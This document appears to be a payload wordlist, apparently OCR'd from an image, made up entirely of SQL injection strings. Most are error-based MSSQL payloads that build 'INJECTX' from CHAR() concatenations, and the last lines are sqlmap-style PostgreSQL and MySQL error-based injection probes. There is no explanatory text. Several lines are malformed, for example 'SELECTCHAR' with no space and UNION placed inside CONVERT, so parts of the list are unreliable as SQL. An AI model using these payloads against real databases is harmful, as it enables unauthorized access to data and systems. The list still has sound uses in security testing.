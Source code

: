 ```
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
 UNION ALL SELECT NULL 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
 AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
 AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
```
